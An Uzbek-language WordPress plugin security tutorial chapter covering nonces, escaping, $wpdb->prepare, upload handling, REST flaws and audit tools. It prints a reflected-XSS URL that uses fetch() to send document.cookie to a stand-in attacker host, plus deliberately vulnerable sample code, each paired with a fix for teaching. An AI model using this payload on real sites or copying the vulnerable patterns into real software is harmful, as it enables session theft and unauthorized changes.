



# 29 — Xavfsizlik auditi (chuqur)

[⬅️ Oldingi: 28 — Distribution: readme.txt, SVN, yangilanish](./28-distribution.md) · [🏠 README](./README.md) · [Keyingi: 30 — Yakuniy kapston: to'liq professional plugin ➡️](./30-kapston.md)

> **Bu bobda:** 12-bobdagi xavfsizlik asoslarini real exploit naqshlari darajasiga chuqurlashtiramiz — tahdid modeli va defense-in-depth, nonce hayot siklining ichki mexanikasi (12/24 soat, action-specific, nonce autentifikatsiya emas), escape kontekstining real XSS zanjiri (atributdan chiqib `onmouseover` orqali JS), `$wpdb->prepare` ning chuqur naqshlari (`%i`, `esc_like`, `IN (...)`), fayl yuklash xavfsizligi (`wp_handle_upload`, `wp_check_filetype_and_ext`), REST zaifliklari (`permission_callback`, IDOR, SSRF, PHP object injection) va audit jarayoni (PHPCS security sniff'lari, WPScan, manual review checklist) — barchasi rasmiy docs bilan tasdiqlangan imzolar bilan.

---

## Muammo: plugin = saytning hujum yuzasi

WordPress yadrosi (core) yillar davomida minglab dasturchi va xavfsizlik tadqiqotchisi tomonidan sinovdan o'tgan. U nisbatan mustahkam. Lekin **plugin'lar** — boshqa hikoya. WPScan ma'lumotlar bazasidagi zaifliklarning aksariyati yadroda emas, aynan plugin va mavzularda. Sabab oddiy: har bir plugin saytga yangi kod, yangi forma, yangi endpoint, yangi fayl operatsiyasi qo'shadi — ya'ni yangi **hujum yuzasi** (attack surface).

12-bobda biz uch ustunni o'rgandik: sanitize, escape, nonce + capability. Bu — poydevor. Bu bob esa **audit** bobidir: biz endi "qoidalarni bilaman" dan "real hujumchi qanday o'ylaydi va men qanday tekshiraman" darajasiga o'tamiz. Har bir tushunchani **real exploit naqshi** va uning **aniq tuzatilishi** bilan ko'rsatamiz.

📌 **Tahdid modeli — birinchi qadam.** Audit qilishdan oldin o'zingizga savol bering: ma'lumot plugin'imga **qayerdan** kiradi (forma, URL, REST, AJAX, fayl, import, boshqa plugin), u **qayerga** chiqadi (HTML, atribut, JS, SQL, email, log), va har bir harakatni **kim** so'rashi mumkin (mehmon, obunachi, admin)? Hujum yuzasini xaritalash — auditning yarmi.

⚠️ **Exploit misollari illustrativ — ularni faqat o'z test saytingizda, ruxsatingiz bor muhitda sinang.** Begona saytda zaiflikni sinash — qonunbuzarlik. Bu yerda maqsad — hujumni tushunib, undan himoyalanish.

---

## Defense-in-depth: bir qatlamga ishonmang

Yaxshi xavfsizlik bitta "sehrli" funksiyaga emas, **bir nechta mustaqil qatlam**ga tayanadi. Agar bitta qatlam tushib qolsa (siz bitta escape'ni unutsangiz), boshqasi hali ham himoya qiladi. Buni **defense-in-depth** (chuqurlikdagi mudofaa) deyiladi.



To'rt qatlam, har biri boshqa zaiflik turidan himoyalaydi:

| Qatlam | Funksiyalar | Qaysi zaiflikdan |
|---|---|---|
| **1. Kirish (sanitize)** | `wp_unslash` + `sanitize_text_field`, `absint`, `sanitize_key`, `wp_kses` | Buzilgan/zararli kiritma |
| **2. Jarayon (intent + ruxsat)** | nonce (`check_admin_referer`) + `current_user_can($cap, $id)` | CSRF, IDOR, ruxsatsiz kirish |
| **3. Baza (parametrlash)** | `$wpdb->prepare`, `$wpdb->esc_like` | SQL injection |
| **4. Chiqish (escape)** | `esc_html`, `esc_attr`, `esc_url`, `esc_js`, `wp_kses_post` | XSS |

💡 **Nega "chuqurlik" muhim?** Faraz qiling, bitta meta maydonni saqlashda `sanitize_text_field` qilasiz (1-qatlam). Agar shu yetarli deb, chiqishda escape qilmasangiz — boshqa plugin shu maydonni escape'siz yozsa yoki maydon importdan kelsa, XSS ochiladi. Har qatlam **o'z vazifasini** bajaradi va boshqasiga ishonmaydi. Audit paytida har to'rt qatlamning har birini alohida tekshiring.

---

## Nonce hayot sikli (chuqur): u CSRF himoyasi, autentifikatsiya EMAS

12-bobda nonce'ni CSRF himoyasi sifatida ko'rdik. Endi ichki mexanikasini ochamiz — chunki ko'p dasturchi nonce'ni noto'g'ri tushunib, xavfli xulosalar chiqaradi.

### Nonce qancha yashaydi: 12 va 24 soat

WordPress nonce **abadiy emas**. Uning amal qilish muddati ikki "tik"dan iborat:

- Standart `nonce_life` = `DAY_IN_SECONDS` (86400 sekund = 24 soat).
- Bir **tik** = `nonce_life / 2` = **12 soat**.
- Nonce **ikki tik** davomida yaroqli.

Shuning uchun `wp_verify_nonce` uch qiymatdan birini qaytaradi:

```php
$natija = wp_verify_nonce( $nonce, 'kitkat_kitob_ochir' );
// 1     -> nonce 0-12 soat oldin yaratilgan (joriy tik)
// 2     -> nonce 12-24 soat oldin yaratilgan (oldingi tik, hali yaroqli)
// false -> yaroqsiz yoki 24 soatdan oshgan
```

ℹ️ **Imzo (docs bilan tasdiqlangan):** `wp_verify_nonce( string $nonce, string|int $action = -1 ): int|false`. Amal muddatini `nonce_life` filtri bilan o'zgartirish mumkin (lekin odatda tegmaslik kerak).

⚠️ **Amaliy oqibat:** foydalanuvchi formani 13 soat ochiq qoldirib, keyin yuborsa — nonce hali yaroqli (`2` qaytaradi). Lekin 25 soatdan keyin — `false`, va `check_admin_referer` "Are you sure you want to do this?" sahifasini ko'rsatadi. Uzoq ochiq qoladigan formalar (masalan murakkab sozlamalar) uchun buni hisobga oling.

### Nonce action-specific bo'lishi SHART

Eng keng tarqalgan nonce xatosi — butun plugin bo'ylab **bitta** umumiy nonce action ishlatish:

```php
// ANTI-NAQSH: hamma joyda bir xil action
wp_nonce_field( 'kitkat_nonce' );   // saqlashda ham, o'chirishda ham, import'da ham
```

Bu zaif, chunki bitta joyda olingan nonce **boshqa har qanday** harakatda ishlaydi. Agar bir sahifada nonce ko'rinib qolsa (masalan o'qish-only sahifada), hujumchi uni o'chirish harakatida qayta ishlatishi mumkin. To'g'risi — har harakatga **alohida, tavsifli** action, va obyekt bilan ishlaganda **obyekt ID'sini** ham qo'shing:

```php
// TO'G'RI: action harakatga xos, va konkret obyektga bog'langan
wp_nonce_field( 'kitkat_kitob_ochir_' . $kitob_id, 'kitkat_nonce' );
wp_nonce_field( 'kitkat_sozlama_saqla', 'kitkat_sozlama_nonce' );
```

### Eng muhim tushuncha: nonce AUTENTIFIKATSIYA emas

📌 **Nonce faqat "intent"ni (niyatni) tasdiqlaydi — "bu so'rov haqiqatan mening formamdan keldimi?". U "kim?" va "huquqi bormi?" savoliga JAVOB BERMAYDI.**

Bu nuqtani ko'p dasturchi o'tkazib yuboradi. Mana xavfli mantiq:

```php
// XAVFLI: faqat nonce, capability YO'Q
function kitkat_kitob_ochir_xato(): void {
	check_admin_referer( 'kitkat_kitob_ochir', 'kitkat_nonce' );
	wp_delete_post( absint( $_GET['kitob_id'] ?? 0 ), true ); // har kim o'chira oladi!
}
```

Muammo: **login bo'lgan har qanday foydalanuvchi** (hatto eng past rolli obunachi) shu sahifaga kirsa, haqiqiy nonce ola oladi. Nonce uni to'smaydi — u faqat CSRF'dan himoyalaydi. Obunachi endi istalgan kitobni o'chiradi. To'g'risi — **nonce + capability birga**:

```php
function kitkat_kitob_ochir_tugri(): void {
	$kitob_id = absint( $_GET['kitob_id'] ?? 0 );
	check_admin_referer( 'kitkat_kitob_ochir_' . $kitob_id, 'kitkat_nonce' ); // intent (CSRF)
	if ( ! current_user_can( 'delete_post', $kitob_id ) ) {                    // ruxsat + IDOR
		wp_die( esc_html__( 'Sizda bu amalga ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}
	wp_delete_post( $kitob_id, true );
}
```

💡 **Yodda tuting:** `check_admin_referer` / `check_ajax_referer` = "haqiqiy so'rovmi?"; `current_user_can` = "ruxsati bormi?". Ikkalasi **doim birga**. Biri ikkinchisini almashtira olmaydi.

⚠️ **`check_admin_referer` va `check_ajax_referer` yaroqsiz nonce'da o'zi `die` qiladi.** Agar jim qaytarish kerak bo'lsa — `wp_verify_nonce` + `if`. `check_ajax_referer( $action, $query_arg, $stop = true )` — `$stop = false` qilsangiz, `die` o'rniga `false` qaytaradi.

---

## Escape kontekstini buzish: real XSS zanjiri

12-bobda "kontekstga mos escape" qoidasini o'rgandik. Endi **nima uchun** noto'g'ri kontekst halokatli ekanini real exploit zanjiri bilan ko'ramiz.

### Exploit: atributdan "chiqib ketish"

Faraz qiling, `kitoblar-katalogi` plugin'i qidiruv so'zini qaytadan input maydoniga qo'yadi (ko'p plugin'da bo'ladigan naqsh):

```php
// ZAIF: atributda escape YO'Q
$q = $_GET['q'] ?? '';
echo '<input type="text" name="q" value="' . $q . '">';
```

Hujumchi quyidagi URL'ni yuboradi (qurbonga link sifatida):

```text
https://sayt.uz/?q=" onmouseover="fetch('https://yomon.uz/c='+document.cookie)
```

Natijada HTML shunday bo'ladi:

```html
<input type="text" name="q" value="" onmouseover="fetch('https://yomon.uz/c='+document.cookie)">
```

Birinchi `"` atribut qiymatini **yopadi**, keyin `onmouseover` — to'liq yangi HTML atribut bo'lib qoladi. Qurbon sahifani ochib, sichqonni input ustiga olib kelsa — JS ishga tushadi va cookie hujumchiga ketadi. Bu — **aks ettirilgan XSS** (reflected XSS).



### Tuzatish: `esc_attr`

```php
$q = sanitize_text_field( wp_unslash( $_GET['q'] ?? '' ) );
echo '<input type="text" name="q" value="' . esc_attr( $q ) . '">';
```

`esc_attr` `"` belgisini `&quot;` ga aylantiradi. Endi tirnoq atributni **yopolmaydi** — hammasi oddiy matn bo'lib qoladi, `onmouseover` shunchaki ko'rinadigan harflar. Zanjir uziladi.

📌 **Har kontekstning o'z exploit'i bor:**

| Kontekst | Noto'g'ri escape | Exploit | To'g'ri |
|---|---|---|---|
| HTML matn | escape yo'q | `<script>...</script>` | `esc_html` |
| Atribut | `esc_html` o'rniga hech narsa | `" onmouseover=...` | `esc_attr` |
| URL (`href`) | escape yo'q | `javascript:alert(1)` | `esc_url` |
| Inline JS | escape yo'q | `"; alert(1); //` | `esc_js` |

⚠️ **`esc_url` `javascript:` ni bloklaydi.** `<a href="<?php echo $url; ?>">` da `$url = "javascript:fetch(...)"` bo'lsa, bosilganda JS ishlaydi. `esc_url` faqat ruxsat etilgan protokollarni (`http`, `https`, `mailto`, `ftp`, ...) qoldiradi va `javascript:` ni tashlaydi. URL'ni doim `esc_url` orqali chiqaring.

ℹ️ **Imzolar (developer.wordpress.org bilan tasdiqlangan):** `esc_html( string $text ): string`, `esc_attr( string $text ): string`, `esc_url( string $url, string[] $protocols = null, string $_context = 'display' ): string`, `esc_js( string $text ): string`.

### `wp_kses` — allowlist orqali HTML'ga ruxsat

Ba'zan HTML **kerak** (kitob tavsifi `<strong>`, `<a>` ishlatsin), lekin `<script>` rad etilsin. Yechim — `wp_kses` allowlist:

```php
$allowed = [
	'a'      => [ 'href' => [], 'title' => [] ],
	'strong' => [],
	'em'     => [],
];
$tavsif = wp_kses( wp_unslash( $_POST['tavsif'] ?? '' ), $allowed );
```

ℹ️ **Imzo (docs bilan tasdiqlangan):** `wp_kses( string $content, array[]|string $allowed_html, string[] $allowed_protocols = array() ): string`. Allowlist'da bo'lmagan tag, atribut va HTML entity **olib tashlanadi**. Standart ruxsat etilgan protokollar: `http`, `https`, `ftp`, `mailto`, `news`, `irc`, `gopher`, `nntp`, `feed`, `telnet` — `javascript` **yo'q** (ataylab). `wp_kses_post( string $content ): string` — post-kontekstli tayyor allowlist.

💡 **`wp_kses` ham sanitize, ham (qisman) escape.** U xavfli tag/atributni tashlagani uchun chiqishda ham ishonchli: `echo wp_kses_post( $tavsif );`. Lekin u "ataylab" sekin — faqat HTML haqiqatan kerak bo'lganda ishlating; oddiy matnga `esc_html` yengilroq.

---

## SQL: `$wpdb->prepare` chuqur naqshlari

12 va 10-boblarda `prepare` asosini ko'rdik. Audit paytida uchraydigan **uchta murakkab holatni** ochamiz: identifikator (`%i`), `LIKE`, va `IN (...)`.

### Anti-misol va tuzatish

```php
// ❌ SQLi: foydalanuvchi qiymati to'g'ridan-to'g'ri so'rovga
// $wpdb->get_results( "SELECT * FROM {$wpdb->posts} WHERE post_author = " . $_GET['a'] );

// ✅ prepare bilan
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT * FROM {$wpdb->posts} WHERE post_author = %d AND post_status = %s",
		absint( $_GET['a'] ?? 0 ),
		'publish'
	)
);
```

📌 **Joy egalari (docs bilan tasdiqlangan):** `%s` (string), `%d` (butun), `%f` (o'nli), `%i` (identifikator — ustun/jadval nomi, **WordPress 6.2+**). `%i` ni `wpdb::has_cap( 'identifier_placeholders' )` bilan tekshirish mumkin.

### `%i` — ustun/jadval nomini xavfsiz qo'yish

Ba'zan **ustun nomi** o'zgaruvchan bo'ladi (masalan saralash ustuni foydalanuvchi tanlovidan). Uni stringga yopishtirish — SQLi. `%i` aynan shu uchun:

```php
$ruxsat = [ 'post_title', 'post_date' ];
$ustun  = in_array( $_GET['sort'] ?? '', $ruxsat, true ) ? $_GET['sort'] : 'post_date';

$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT ID, post_title FROM {$wpdb->posts} WHERE post_status = %s ORDER BY %i DESC",
		'publish',
		$ustun // %i — identifikator sifatida xavfsiz qochiriladi
	)
);
```

💡 **`%i` bo'lsa ham, allowlist qoldiring.** `%i` SQL injeksiyadan himoya qiladi, lekin foydalanuvchi mavjud bo'lmagan ustun nomini berishi mumkin (xato). `in_array(..., true)` bilan ruxsat etilgan ustunlarni cheklash — qo'shimcha qatlam (defense-in-depth).

### `LIKE` qidiruvi: `esc_like` + `%s`

`LIKE` ichidagi `%` va `_` belgilari maxsus ma'noga ega. Foydalanuvchi `%` kiritsa, qidiruv kutilmagan natija beradi (yoki DoS). `$wpdb->esc_like` ularni qochiradi, keyin `%s` SQL injeksiyadan himoyalaydi:

```php
$q    = sanitize_text_field( wp_unslash( $_POST['q'] ?? '' ) );
$like = '%' . $wpdb->esc_like( $q ) . '%'; // % _ \ qochiriladi
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT post_title FROM {$wpdb->posts} WHERE post_status = %s AND post_title LIKE %s",
		'publish',
		$like
	)
);
```

⚠️ **Tartib muhim:** avval `esc_like` (LIKE maxsus belgilarini), keyin natijani `%s` ga uzating. `%s` o'zi `esc_like` qilmaydi — u faqat SQL string qochiriladi, `%`/`_` ni emas.

### `IN (...)` ro'yxati: placeholder generatsiyasi

`prepare` da `IN (%s)` bitta qiymatga ishlaydi, lekin massiv uchun **dinamik placeholder** kerak:

```php
$ids = array_map( 'absint', (array) ( $_POST['ids'] ?? [] ) );
$ids = array_filter( $ids ); // 0 larni olib tashlaymiz
if ( $ids ) {
	$ph = implode( ',', array_fill( 0, count( $ids ), '%d' ) ); // "%d,%d,%d"
	$natija = $wpdb->get_results(
		$wpdb->prepare(
			"SELECT * FROM {$wpdb->posts} WHERE ID IN ($ph)",
			...$ids // spread — har bir ID %d ga
		)
	);
}
```

📌 **`$ph` ichida faqat siz yaratgan `%d` lar bor — foydalanuvchi qiymati emas.** Foydalanuvchi qiymatlari (`$ids`) `prepare` ga argument sifatida o'tadi, so'rov stringiga emas. Bu — to'g'ri naqsh.

---

## Fayl yuklash xavfsizligi

Fayl yuklash — eng xavfli operatsiyalardan biri. Agar hujumchi `.php` fayl yuklab, uni brauzerda ocha olsa — bu **to'liq sayt egallanishi** (remote code execution). Mana xavfsiz oqim.



### To'g'ri yo'l: `wp_handle_upload` + `wp_check_filetype_and_ext`

```php
namespace Oqil\KitobKatalog;

function kitkat_muqova_yukla(): array|\WP_Error {
	check_admin_referer( 'kitkat_muqova_yukla', 'kitkat_nonce' ); // nonce
	if ( ! current_user_can( 'upload_files' ) ) {                 // capability
		return new \WP_Error( 'ruxsat', 'Yuklash huquqi yo\'q.' );
	}

	if ( empty( $_FILES['kitob_muqova']['name'] ) ) {
		return new \WP_Error( 'fayl_yoq', 'Fayl tanlanmagan.' );
	}

	// Faqat rasm turlariga ruxsat (allowlist) — kengaytma regex => MIME:
	$ruxsat_mimes = [
		'jpg|jpeg' => 'image/jpeg',
		'png'      => 'image/png',
		'webp'     => 'image/webp',
	];

	// 1) Haqiqiy mazmun kengaytmaga mos keladimi (soxta MIME ni tutadi):
	$file  = $_FILES['kitob_muqova'];
	$tekis = wp_check_filetype_and_ext( $file['tmp_name'], $file['name'], $ruxsat_mimes );
	if ( empty( $tekis['ext'] ) || empty( $tekis['type'] ) ) {
		return new \WP_Error( 'tur', 'Faqat JPG, PNG yoki WEBP rasm ruxsat etilgan.' );
	}

	// 2) WordPress'ning xavfsiz yuklash funksiyasi:
	$natija = wp_handle_upload(
		$file,
		[
			'test_form' => false,          // bu yerda formani o'zimiz tekshirdik
			'mimes'     => $ruxsat_mimes,  // allowlist takror, ichki tekshiruv uchun
		]
	);

	if ( isset( $natija['error'] ) ) {
		return new \WP_Error( 'yuklash', $natija['error'] );
	}

	return $natija; // [ 'file' => ..., 'url' => ..., 'type' => ... ]
}
```

ℹ️ **Imzolar (developer.wordpress.org bilan tasdiqlangan):**

- `wp_handle_upload( array $file, array|false $overrides = false, string|null $time = null ): array` — natijada `'error'` kaliti **yo'q** bo'lsa muvaffaqiyat. `$overrides` ichida: `test_form` (bool — `$_POST['action']` ni tekshirish), `mimes` (kengaytma regex => MIME allowlist), `action`, `test_type`, `test_size`.
- `wp_check_filetype_and_ext( string $file, string $filename, string[]|null $mimes = null ): array` — natija: `ext`, `type`, `proper_filename` (mos kelmasa `false`). U **fayl mazmunini** kengaytma bilan solishtiradi — `.jpg` deb nomlangan PHP faylni tutadi.

### Nega bu xavfsiz

📌 **Uch darvoza birga ishlaydi:**

1. **`wp_check_filetype_and_ext`** — haqiqiy mazmun (magic bytes) kengaytmaga mos keladimi tekshiradi. `zararli.php` ni `rasm.jpg` deb nomlash bu yerda tutiladi.
2. **`wp_handle_upload`** allowlist (`mimes`) tashqari turlarni rad etadi, faylga noyob nom beradi va WordPress'ning `uploads/` papkasiga joylaydi.
3. **Server sozlamasi** — `uploads/` papkasida PHP **bajarilmasligi** kerak. Yaxshi hosting buni qiladi; bo'lmasa `.htaccess`/Nginx bilan `.php` ni `uploads/` da bloklang.

⚠️ **`.svg` ni o'ylab ruxsat bering.** SVG — XML, va `<script>` ni o'z ichiga olishi mumkin (SVG-XSS). WordPress standart holatda SVG yuklashga ruxsat **bermaydi**. Agar SVG kerak bo'lsa — uni sanitizatsiya qiladigan ishonchli kutubxona ishlating, allowlist'ga ko'r-ko'rona qo'shmang.

⚠️ **Hech qachon o'z qo'lingiz bilan `move_uploaded_file` qilmang** (agar to'liq nazorat qila olmasangiz). `wp_handle_upload` MIME, kengaytma, noyob nom va papka ruxsatlarini o'zi hal qiladi. O'zingiz qilsangiz — bittasini unutish oson.

---

## REST API xavfsizligi (chuqur)

REST endpoint'lar — zamonaviy plugin'ning eng katta hujum yuzasi, chunki ular ko'pincha **autentifikatsiyasiz** ham chaqirilishi mumkin. 16-bobda REST asosini ko'rdik; bu yerda zaifliklarga qaraymiz.

### `permission_callback` ni bo'sh qoldirish = halokat

```php
// ❌ JUDA XAVFLI: hamma kira oladi (o'qish ham, yozish ham)
register_rest_route( 'kitkat/v1', '/kitob/(?P<id>\d+)', [
	'methods'             => 'POST',
	'callback'            => __NAMESPACE__ . '\\kitob_yangila',
	'permission_callback' => '__return_true', // <- hamma uchun ochiq!
] );
```

`__return_true` endpoint'ni **butun internetga** ochadi. Agar callback ma'lumot o'zgartirsa (POST/DELETE) — har kim, autentifikatsiyasiz, sizning ma'lumotingizni o'zgartiradi.

```php
// ✅ TO'G'RI: nonce + capability
register_rest_route( 'kitkat/v1', '/kitob/(?P<id>\d+)', [
	'methods'             => 'POST',
	'callback'            => __NAMESPACE__ . '\\kitob_yangila',
	'permission_callback' => static function ( \WP_REST_Request $req ): bool {
		return current_user_can( 'edit_post', absint( $req['id'] ) );
	},
	'args'                => [
		'id' => [ 'sanitize_callback' => 'absint' ],
	],
] );
```

ℹ️ **Imzo (docs bilan tasdiqlangan):** `register_rest_route( string $route_namespace, string $route, array $args = array(), bool $override = false ): bool`. **`permission_callback` shart** — agar yo'q bo'lsa, WordPress 5.5+ `_doing_it_wrong()` ogohlantirishini chiqaradi (debug.log'da ko'rinadi). Public endpoint **ataylab** ochiq bo'lsagina `'__return_true'` ishlating va buni izoh bilan belgilang.

📌 **REST nonce.** Brauzerdan kelgan REST so'rovlari `X-WP-Nonce` sarlavhasi (`wp_create_nonce('wp_rest')`) bilan keladi va WordPress uni avtomatik tekshiradi — `permission_callback` ichida `current_user_can` ishlaganda foydalanuvchi to'g'ri aniqlanadi. Lekin `permission_callback` baribir **capability** tekshirishi shart.

### IDOR: boshqa foydalanuvchining resursi

REST'da IDOR juda oson sodir bo'ladi. Faraz qiling, endpoint foydalanuvchi profilini qaytaradi:

```php
// ❌ IDOR: har kim har qanday ID ni so'raydi
'permission_callback' => '__return_true',
// callback: return get_user_meta( $req['id'], 'maxfiy_maydon', true );
```

`?id=1` (admin) so'rab, hujumchi admin ma'lumotini oladi. Tuzatish — **so'ralgan obyekt foydalanuvchiga tegishlimi** tekshiring:

```php
'permission_callback' => static function ( \WP_REST_Request $req ): bool {
	$soralgan = absint( $req['id'] );
	// Faqat o'zini yoki boshqa foydalanuvchini ko'ra oladiganlar:
	return get_current_user_id() === $soralgan || current_user_can( 'list_users' );
},
```

⚠️ **IDOR — capability bilan emas, EGALIK bilan to'xtaydi.** `current_user_can('read')` har kimda bor — u IDOR'ni to'smaydi. So'ralgan **konkret obyekt** uchun huquqni (`edit_post, $id`) yoki egalikni (`get_current_user_id() === $id`) tekshiring.

### SSRF: tashqi URL'ga so'rov

Agar plugin foydalanuvchi bergan URL'ga so'rov yuborsa (masalan "muqovani URL'dan import qil"), hujumchi ichki manzilni berishi mumkin — `http://localhost/`, `http://169.254.169.254/` (cloud metadata). Bu — **SSRF** (Server-Side Request Forgery). Yechim — `wp_safe_remote_*`:

```php
$url = esc_url_raw( wp_unslash( $_POST['url'] ?? '' ) );
$javob = wp_safe_remote_get( $url, [ 'timeout' => 10 ] ); // SSRF himoyasi
if ( is_wp_error( $javob ) ) {
	return new \WP_Error( 'http', $javob->get_error_message() );
}
$tana = wp_remote_retrieve_body( $javob );
```

ℹ️ **Imzo (docs bilan tasdiqlangan):** `wp_safe_remote_get( string $url, array $args = array() ): array|WP_Error`. U ichki `$args['reject_unsafe_urls'] = true` o'rnatadi — URL va u yo'naltirgan har bir URL `wp_http_validate_url()` bilan tekshiriladi, ichki/xavfli manzillar rad etiladi. Oddiy `wp_remote_get` buni qilmaydi.

📌 **Foydalanuvchi URL'iga so'rov yuborganingizda doim `wp_safe_remote_get`/`wp_safe_remote_post` ishlating** — `wp_remote_get` emas. Ikkalasining API'si bir xil, lekin "safe" varianti SSRF'dan himoyalaydi.

### PHP object injection: `unserialize` ehtiyotkorlik

Agar foydalanuvchi ma'lumotini `unserialize()` qilsangiz — hujumchi maxsus serializatsiya satrini yuborib, ixtiyoriy obyekt yaratishi mumkin (**PHP object injection**), bu esa magic metodlar orqali kod ishga tushirishga olib kelishi mumkin.

```php
// ❌ XAVFLI: foydalanuvchi ma'lumotida xom unserialize
// $data = unserialize( $_POST['data'] );

// ⚠️ maybe_unserialize ham foydalanuvchi ma'lumotida ehtiyotni talab qiladi:
// u ichida unserialize() ishlatadi — ishonchsiz manbada xavfli bo'lib qoladi.

// ✅ Ishonchsiz strukturalangan ma'lumot uchun JSON ishlating:
$data = json_decode( wp_unslash( $_POST['data'] ?? '' ), true );
if ( ! is_array( $data ) ) {
	return new \WP_Error( 'format', 'Yaroqsiz ma\'lumot.' );
}
```

ℹ️ **`maybe_unserialize( string $data ): mixed`** — "agar serializatsiya qilingan bo'lsa, deserializatsiya qiladi". U WordPress ichida (options, meta) **xavfsiz**, chunki u yerdagi ma'lumotni WordPress o'zi yozadi. Lekin **foydalanuvchidan to'g'ridan-to'g'ri kelgan** ma'lumotda `unserialize`/`maybe_unserialize` ishlatmang — bunday hollarda `json_decode` xavfsiz, chunki u obyekt instansiya qilmaydi.

---

## Audit jarayoni: avtomatik + qo'lda

Endi tushunchalarni **takrorlanadigan audit jarayoni**ga aylantiramiz. Yaxshi audit avtomatik vositalar bilan boshlanadi (tez, keng), keyin qo'lda ko'rib chiqish bilan tugaydi (chuqur, kontekstli).

### PHPCS + WordPress security sniff'lari

25-bobda PHPCS va WordPress Coding Standards (WPCS) ni ko'rdik. Audit uchun aynan **security** sniff'lari muhim. `WordPress-Extra` yoki maxsus `WordPress.Security.*` qoidalarini ishlating:

```bash
# WPCS o'rnatilgan bo'lsa (composer), security qoidalarini ishga tushirish:
phpcs --standard=WordPress-Extra --sniffs=WordPress.Security.EscapeOutput,WordPress.Security.NonceVerification,WordPress.Security.ValidatedSanitizedInput src/

# Yoki to'liq WordPress standarti bilan (escape/nonce/sanitize hammasini tekshiradi):
phpcs --standard=WordPress src/
```

📌 **PHPCS nimani tutadi:** `WordPress.Security.EscapeOutput` — escape'siz `echo`; `WordPress.Security.NonceVerification` — nonce'siz `$_POST` ishlatish; `WordPress.Security.ValidatedSanitizedInput` — sanitize'siz superglobal. Bu uchta sniff plugin xavfsizligining 80% ini avtomatik tekshiradi.

💡 **PHPCS — boshlanish, nihoya emas.** U "bu `echo` escape qilinmagan" deydi, lekin "bu IDOR" yoki "bu SSRF" demaydi. Avtomatik vosita naqsh bilan ishlaydi; mantiqiy zaiflik (IDOR, business logic) faqat qo'lda topiladi.

### WPScan

[WPScan](https://wpscan.com) — WordPress saytlarini ma'lum zaifliklarga (CVE) qarshi skanerlaydigan vosita. Bu — **o'z saytingizda** (yoki test saytida) ishlatiladigan jonli skaner:

```bash
# O'z test saytingizda (ruxsatingiz bor muhitda):
wpscan --url https://mening-test-saytim.uz --enumerate vp
# vp = vulnerable plugins (zaif plugin'lar bazasi bilan solishtirish)
```

ℹ️ **O'z saytingizda sinab ko'ring.** WPScan ishlab turgan WordPress saytini talab qiladi (lokal `wp-env` yoki test serveri). U sizning plugin versiyangizni ma'lum CVE'lar bilan solishtiradi — shuning uchun plugin'ingizni nashr etishdan oldin (28-bob) va keyin muntazam ishlatib turing. **Faqat o'zingizga tegishli yoki yozma ruxsatingiz bor saytda.**

### Qo'lda ko'rib chiqish: audit checklist

Avtomatik vositalardan keyin, har bir kirish/chiqish nuqtasi bo'yicha **qo'lda** yuring. Mana amaliy checklist:

- [ ] **Har bir `$_POST`/`$_GET`/`$_REQUEST`/`$_COOKIE`** — `wp_unslash` + mos sanitize qilinganmi?
- [ ] **Har bir `echo`/`print`** (foydalanuvchi yoki baza ma'lumotini chiqaruvchi) — kontekstga mos escape qilinganmi (`esc_html`/`esc_attr`/`esc_url`/`esc_js`)?
- [ ] **Har bir holat-o'zgartiruvchi harakat** (saqlash, o'chirish, yangilash) — **nonce + capability** bormi?
- [ ] **Har bir `current_user_can`** — obyekt bilan ishlaganda konkret **ID** uzatilganmi (IDOR)?
